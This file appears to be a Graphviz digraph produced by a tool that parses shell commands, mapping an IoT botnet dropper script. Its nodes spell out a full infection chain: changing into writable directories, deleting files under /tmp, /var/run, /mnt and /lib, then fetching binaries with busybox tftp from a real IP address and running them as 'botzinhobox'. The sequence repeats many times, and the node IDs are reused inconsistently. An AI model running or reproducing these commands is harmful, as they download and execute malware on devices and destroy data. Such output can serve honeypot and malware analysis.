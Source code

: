 digraph {
0 [label="ulimit -n 1024 "];
0 -> 0
2 [label="cp /bin/busybox /tmp/ "];
2 -> 2
478 [label="cd /tmp "];
478 -> 478
462 [label="cd /var/system "];
462 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 466 [label="||,"];
466 [label="cd /lib "];
466 -> 468 [label="||,"];
468 [label="rm -f /tmp/* "];
468 -> 470 [label=";,"];
470 [label="/var/run/* "];
470 -> 472 [label="||,"];
472 [label="/var/system/* "];
472 -> 474 [label="||,"];
474 [label="/mnt/* "];
474 -> 476 [label="||,"];
476 [label="/lib/* "];
476 -> 478 [label="||,"];
478 [label="cd /tmp "];
478 -> 480 [label=";,"];
480 [label="cd /var/run "];
480 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 484 [label="||,"];
484 [label="cd /root "];
484 -> 486 [label="||,"];
486 [label="cd / "];
486 -> 32 [label="||,"];
32 [label="busybox tftp 117.236.240.35 -c get FatGGei "];
32 -> 34 [label=";,"];
34 [label="cat FatGGei botzinhobox "];
34 -> 492 [label=";,"];
492 [label="botzinhobox "];
492 -> 492
494 [label="chmod +x * "];
494 -> 495 [label=";,"];
495 [label="./botzinhobox "];
495 -> 478 [label=";,"];
478 [label="cd /tmp "];
478 -> 478
462 [label="cd /var/system "];
462 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 466 [label="||,"];
466 [label="cd /lib "];
466 -> 468 [label="||,"];
468 [label="rm -f /tmp/* "];
468 -> 470 [label=";,"];
470 [label="/var/run/* "];
470 -> 472 [label="||,"];
472 [label="/var/system/* "];
472 -> 474 [label="||,"];
474 [label="/mnt/* "];
474 -> 476 [label="||,"];
476 [label="/lib/* "];
476 -> 478 [label="||,"];
478 [label="cd /tmp "];
478 -> 480 [label=";,"];
480 [label="cd /var/run "];
480 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 484 [label="||,"];
484 [label="cd /root "];
484 -> 486 [label="||,"];
486 [label="cd / "];
486 -> 70 [label="||,"];
70 [label="busybox tftp 117.236.240.35 -c get GORdLx "];
70 -> 72 [label=";,"];
72 [label="cat GORdLx botzinhobox "];
72 -> 492 [label=";,"];
492 [label="botzinhobox "];
492 -> 492
494 [label="chmod +x * "];
494 -> 495 [label=";,"];
495 [label="./botzinhobox "];
495 -> 478 [label=";,"];
478 [label="cd /tmp "];
478 -> 478
462 [label="cd /var/system "];
462 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 466 [label="||,"];
466 [label="cd /lib "];
466 -> 468 [label="||,"];
468 [label="rm -f /tmp/* "];
468 -> 470 [label=";,"];
470 [label="/var/run/* "];
470 -> 472 [label="||,"];
472 [label="/var/system/* "];
472 -> 474 [label="||,"];
474 [label="/mnt/* "];
474 -> 476 [label="||,"];
476 [label="/lib/* "];
476 -> 478 [label="||,"];
478 [label="cd /tmp "];
478 -> 480 [label=";,"];
480 [label="cd /var/run "];
480 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 484 [label="||,"];
484 [label="cd /root "];
484 -> 486 [label="||,"];
486 [label="cd / "];
486 -> 108 [label="||,"];
108 [label="busybox tftp 117.236.240.35 -c get NiwuahT "];
108 -> 110 [label=";,"];
110 [label="cat NiwuahT botzinhobox "];
110 -> 492 [label=";,"];
492 [label="botzinhobox "];
492 -> 492
494 [label="chmod +x * "];
494 -> 495 [label=";,"];
495 [label="./botzinhobox "];
495 -> 478 [label=";,"];
478 [label="cd /tmp "];
478 -> 478
462 [label="cd /var/system "];
462 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 466 [label="||,"];
466 [label="cd /lib "];
466 -> 468 [label="||,"];
468 [label="rm -f /tmp/* "];
468 -> 470 [label=";,"];
470 [label="/var/run/* "];
470 -> 472 [label="||,"];
472 [label="/var/system/* "];
472 -> 474 [label="||,"];
474 [label="/mnt/* "];
474 -> 476 [label="||,"];
476 [label="/lib/* "];
476 -> 478 [label="||,"];
478 [label="cd /tmp "];
478 -> 480 [label=";,"];
480 [label="cd /var/run "];
480 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 484 [label="||,"];
484 [label="cd /root "];
484 -> 486 [label="||,"];
486 [label="cd / "];
486 -> 146 [label="||,"];
146 [label="busybox tftp 117.236.240.35 -c get Aboaniad "];
146 -> 148 [label=";,"];
148 [label="cat Aboaniad botzinhobox "];
148 -> 492 [label=";,"];
492 [label="botzinhobox "];
492 -> 492
494 [label="chmod +x * "];
494 -> 495 [label=";,"];
495 [label="./botzinhobox "];
495 -> 478 [label=";,"];
478 [label="cd /tmp "];
478 -> 478
462 [label="cd /var/system "];
462 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 466 [label="||,"];
466 [label="cd /lib "];
466 -> 468 [label="||,"];
468 [label="rm -f /tmp/* "];
468 -> 470 [label=";,"];
470 [label="/var/run/* "];
470 -> 472 [label="||,"];
472 [label="/var/system/* "];
472 -> 474 [label="||,"];
474 [label="/mnt/* "];
474 -> 476 [label="||,"];
476 [label="/lib/* "];
476 -> 478 [label="||,"];
478 [label="cd /tmp "];
478 -> 480 [label=";,"];
480 [label="cd /var/run "];
480 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 484 [label="||,"];
484 [label="cd /root "];
484 -> 486 [label="||,"];
486 [label="cd / "];
486 -> 184 [label="||,"];
184 [label="busybox tftp 117.236.240.35 -c get yXzloA "];
184 -> 186 [label=";,"];
186 [label="cat yXzloA botzinhobox "];
186 -> 492 [label=";,"];
492 [label="botzinhobox "];
492 -> 492
494 [label="chmod +x * "];
494 -> 495 [label=";,"];
495 [label="./botzinhobox "];
495 -> 478 [label=";,"];
478 [label="cd /tmp "];
478 -> 478
462 [label="cd /var/system "];
462 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 466 [label="||,"];
466 [label="cd /lib "];
466 -> 468 [label="||,"];
468 [label="rm -f /tmp/* "];
468 -> 470 [label=";,"];
470 [label="/var/run/* "];
470 -> 472 [label="||,"];
472 [label="/var/system/* "];
472 -> 474 [label="||,"];
474 [label="/mnt/* "];
474 -> 476 [label="||,"];
476 [label="/lib/* "];
476 -> 478 [label="||,"];
478 [label="cd /tmp "];
478 -> 480 [label=";,"];
480 [label="cd /var/run "];
480 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 484 [label="||,"];
484 [label="cd /root "];
484 -> 486 [label="||,"];
486 [label="cd / "];
486 -> 222 [label="||,"];
222 [label="busybox tftp 117.236.240.35 -c get YEUAxmakiO "];
222 -> 224 [label=";,"];
224 [label="cat YEUAxmakiO botzinhobox "];
224 -> 492 [label=";,"];
492 [label="botzinhobox "];
492 -> 492
494 [label="chmod +x * "];
494 -> 495 [label=";,"];
495 [label="./botzinhobox "];
495 -> 478 [label=";,"];
478 [label="cd /tmp "];
478 -> 478
462 [label="cd /var/system "];
462 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 466 [label="||,"];
466 [label="cd /lib "];
466 -> 468 [label="||,"];
468 [label="rm -f /tmp/* "];
468 -> 470 [label=";,"];
470 [label="/var/run/* "];
470 -> 472 [label="||,"];
472 [label="/var/system/* "];
472 -> 474 [label="||,"];
474 [label="/mnt/* "];
474 -> 476 [label="||,"];
476 [label="/lib/* "];
476 -> 478 [label="||,"];
478 [label="cd /tmp "];
478 -> 480 [label=";,"];
480 [label="cd /var/run "];
480 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 484 [label="||,"];
484 [label="cd /root "];
484 -> 486 [label="||,"];
486 [label="cd / "];
486 -> 260 [label="||,"];
260 [label="busybox tftp 117.236.240.35 -c get NianhaoO "];
260 -> 262 [label=";,"];
262 [label="cat NianhaoO botzinhobox "];
262 -> 492 [label=";,"];
492 [label="botzinhobox "];
492 -> 492
494 [label="chmod +x * "];
494 -> 495 [label=";,"];
495 [label="./botzinhobox "];
495 -> 478 [label=";,"];
478 [label="cd /tmp "];
478 -> 478
462 [label="cd /var/system "];
462 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 466 [label="||,"];
466 [label="cd /lib "];
466 -> 468 [label="||,"];
468 [label="rm -f /tmp/* "];
468 -> 470 [label=";,"];
470 [label="/var/run/* "];
470 -> 472 [label="||,"];
472 [label="/var/system/* "];
472 -> 474 [label="||,"];
474 [label="/mnt/* "];
474 -> 476 [label="||,"];
476 [label="/lib/* "];
476 -> 478 [label="||,"];
478 [label="cd /tmp "];
478 -> 480 [label=";,"];
480 [label="cd /var/run "];
480 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 484 [label="||,"];
484 [label="cd /root "];
484 -> 486 [label="||,"];
486 [label="cd / "];
486 -> 298 [label="||,"];
298 [label="busybox tftp 117.236.240.35 -c get LoytA "];
298 -> 300 [label=";,"];
300 [label="cat LoytA botzinhobox "];
300 -> 492 [label=";,"];
492 [label="botzinhobox "];
492 -> 492
494 [label="chmod +x * "];
494 -> 495 [label=";,"];
495 [label="./botzinhobox "];
495 -> 478 [label=";,"];
478 [label="cd /tmp "];
478 -> 478
462 [label="cd /var/system "];
462 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 466 [label="||,"];
466 [label="cd /lib "];
466 -> 468 [label="||,"];
468 [label="rm -f /tmp/* "];
468 -> 470 [label=";,"];
470 [label="/var/run/* "];
470 -> 472 [label="||,"];
472 [label="/var/system/* "];
472 -> 474 [label="||,"];
474 [label="/mnt/* "];
474 -> 476 [label="||,"];
476 [label="/lib/* "];
476 -> 478 [label="||,"];
478 [label="cd /tmp "];
478 -> 480 [label=";,"];
480 [label="cd /var/run "];
480 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 484 [label="||,"];
484 [label="cd /root "];
484 -> 486 [label="||,"];
486 [label="cd / "];
486 -> 336 [label="||,"];
336 [label="busybox tftp 117.236.240.35 -c get BamOaZ "];
336 -> 338 [label=";,"];
338 [label="cat BamOaZ botzinhobox "];
338 -> 492 [label=";,"];
492 [label="botzinhobox "];
492 -> 492
494 [label="chmod +x * "];
494 -> 495 [label=";,"];
495 [label="./botzinhobox "];
495 -> 478 [label=";,"];
478 [label="cd /tmp "];
478 -> 478
462 [label="cd /var/system "];
462 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 466 [label="||,"];
466 [label="cd /lib "];
466 -> 468 [label="||,"];
468 [label="rm -f /tmp/* "];
468 -> 470 [label=";,"];
470 [label="/var/run/* "];
470 -> 472 [label="||,"];
472 [label="/var/system/* "];
472 -> 474 [label="||,"];
474 [label="/mnt/* "];
474 -> 476 [label="||,"];
476 [label="/lib/* "];
476 -> 478 [label="||,"];
478 [label="cd /tmp "];
478 -> 480 [label=";,"];
480 [label="cd /var/run "];
480 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 484 [label="||,"];
484 [label="cd /root "];
484 -> 486 [label="||,"];
486 [label="cd / "];
486 -> 374 [label="||,"];
374 [label="busybox tftp 117.236.240.35 -c get YtenZjs "];
374 -> 376 [label=";,"];
376 [label="cat YtenZjs botzinhobox "];
376 -> 492 [label=";,"];
492 [label="botzinhobox "];
492 -> 492
494 [label="chmod +x * "];
494 -> 495 [label=";,"];
495 [label="./botzinhobox "];
495 -> 478 [label=";,"];
478 [label="cd /tmp "];
478 -> 478
462 [label="cd /var/system "];
462 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 466 [label="||,"];
466 [label="cd /lib "];
466 -> 468 [label="||,"];
468 [label="rm -f /tmp/* "];
468 -> 470 [label=";,"];
470 [label="/var/run/* "];
470 -> 472 [label="||,"];
472 [label="/var/system/* "];
472 -> 474 [label="||,"];
474 [label="/mnt/* "];
474 -> 476 [label="||,"];
476 [label="/lib/* "];
476 -> 478 [label="||,"];
478 [label="cd /tmp "];
478 -> 480 [label=";,"];
480 [label="cd /var/run "];
480 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 484 [label="||,"];
484 [label="cd /root "];
484 -> 486 [label="||,"];
486 [label="cd / "];
486 -> 412 [label="||,"];
412 [label="busybox tftp 117.236.240.35 -c get Akasters "];
412 -> 414 [label=";,"];
414 [label="cat Akasters botzinhobox "];
414 -> 492 [label=";,"];
492 [label="botzinhobox "];
492 -> 492
494 [label="chmod +x * "];
494 -> 495 [label=";,"];
495 [label="./botzinhobox "];
495 -> 478 [label=";,"];
478 [label="cd /tmp "];
478 -> 478
462 [label="cd /var/system "];
462 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 466 [label="||,"];
466 [label="cd /lib "];
466 -> 468 [label="||,"];
468 [label="rm -f /tmp/* "];
468 -> 470 [label=";,"];
470 [label="/var/run/* "];
470 -> 472 [label="||,"];
472 [label="/var/system/* "];
472 -> 474 [label="||,"];
474 [label="/mnt/* "];
474 -> 476 [label="||,"];
476 [label="/lib/* "];
476 -> 478 [label="||,"];
478 [label="cd /tmp "];
478 -> 480 [label=";,"];
480 [label="cd /var/run "];
480 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 484 [label="||,"];
484 [label="cd /root "];
484 -> 486 [label="||,"];
486 [label="cd / "];
486 -> 450 [label="||,"];
450 [label="busybox tftp 117.236.240.35 -c get Al7una "];
450 -> 452 [label=";,"];
452 [label="cat Al7una botzinhobox "];
452 -> 492 [label=";,"];
492 [label="botzinhobox "];
492 -> 492
494 [label="chmod +x * "];
494 -> 495 [label=";,"];
495 [label="./botzinhobox "];
495 -> 478 [label=";,"];
478 [label="cd /tmp "];
478 -> 478
462 [label="cd /var/system "];
462 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 466 [label="||,"];
466 [label="cd /lib "];
466 -> 468 [label="||,"];
468 [label="rm -f /tmp/* "];
468 -> 470 [label=";,"];
470 [label="/var/run/* "];
470 -> 472 [label="||,"];
472 [label="/var/system/* "];
472 -> 474 [label="||,"];
474 [label="/mnt/* "];
474 -> 476 [label="||,"];
476 [label="/lib/* "];
476 -> 478 [label="||,"];
478 [label="cd /tmp "];
478 -> 480 [label=";,"];
480 [label="cd /var/run "];
480 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 484 [label="||,"];
484 [label="cd /root "];
484 -> 486 [label="||,"];
486 [label="cd / "];
486 -> 488 [label="||,"];
488 [label="busybox tftp 117.236.240.35 -c get Ney6saA "];
488 -> 490 [label=";,"];
490 [label="cat Ney6saA botzinhobox "];
490 -> 492 [label=";,"];
492 [label="botzinhobox "];
492 -> 492
494 [label="chmod +x * "];
494 -> 495 [label=";,"];
}
